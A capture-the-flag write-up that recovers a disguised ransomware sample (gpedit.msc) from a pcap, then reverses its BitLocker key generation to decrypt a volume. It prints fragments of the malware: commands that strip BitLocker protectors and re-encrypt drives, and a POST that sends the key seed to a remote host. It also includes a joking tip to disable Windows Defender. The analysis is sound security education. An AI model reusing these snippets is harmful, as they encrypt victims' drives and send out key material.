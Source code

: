 # Honey, I shrunk the skids

We are given a fairly small .pcap file that we open with Wireshark. Upon filtering for HTTP traffic, we find the first interesting request.

![Alt text](images/request.PNG)

It seems that a zip file was sent to the target machine. We can extract the .zip file by "following the HTTP Stream" in Wireshark and copying the raw bytes. Now, of course, we could paste these bytes into a new file using a hex editor. However, I like to promote the use of unnecessary online tools. So, I paste them into ![This Website](https://tomeko.net/online_tools/hex_to_file.php?lang=en) and download the file.

If they save the files being processed, that is what we call a "no-no" in privacy terms. Let’s hope they don’t try to open the file on a Windows machine.

The downloaded file is a zip file containing a file called gpedit.msc.

The first hint about what this file is comes when we copy it to a Windows machine and it gets deleted immediately. This file might be malware! Here’s a pro tip for people wanting an EPT-Token: Turn off your Windows Defender and run gpedit.msc. It will irrecoverably encrypt your entire system, BUT you will also get an EPT-Coin.

Upon analyzing gpedit.msc, we stumble upon this large block of URL-encoded characters:
![Alt text](images/text_block.PNG)
By utilizing yet another online tool, [CyberChef](https://gchq.github.io/CyberChef/), we decode the characters and get another Visual Basic script!

This script is quite interesting indeed
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34) & Chr(39) & strRandom & Chr(39) & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then End If
```
This part of the scripts in essence enables bitlocker encryption on some drives. The key used for the encryption seems to be "strRandom".

strRandom is defined in the following code snippet:


```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```
Here we can see that a seed for Rnd() is generated using several characteristics of the target machine.
strRandom is then built using Rnd(). 

Since Rnd() is deterministic we could recover strRandom if we had the seed. 

As we can see in this snippet the seed is actually sent to http://192.168.77.136/updatelog

```vbscript
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```


And lo and behold we can find that request in our .pcap file.

![Alt text](images/request_seed.PNG)

Decoding the base64 string we get "DESKTOP-59C1C3D	43906.83" where 43906.83 is our seed.


By writing the strRandom function ourselves and initializing the Rnd() function with the seed "43906.83" 


```vbscript
Dim strRandom
Dim characters
Dim numericSeed
Dim i
Dim randomNum
Dim fso
Dim outputFile

' Set your numeric seed directly. For example:
' numericSeed = 43906.83  ' Replace this with your actual numeric seed value
numericSeed = "43906.83"
' Randomize with the numeric seed
Rnd(-1)
Randomize numericSeed

' Define characters to choose from
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
strRandom = ""

' Generate random characters
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))  ' Using Rnd to generate a random number
    strRandom = strRandom & Mid(characters, randomNum + 1, 1)  ' Build the random string
Next

' Show the result in a message box
MsgBox "The random string is: " & strRandom

' Create a FileSystemObject to write the string to a file
Set fso = CreateObject("Scripting.FileSystemObject")

' Create or overwrite the output file
Set outputFile = fso.CreateTextFile("randomString.txt", True)

' Write the random string to the file
outputFile.WriteLine strRandom
outputFile.WriteLine numericSeed

' Close the file
outputFile.Close

' Clean up
Set outputFile = Nothing
Set fso = Nothing


```


we are able to generate the following key:
"_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb"

If we decrypt the volume we can access it and get our flag: EPT{it_works_the_machine_works!}


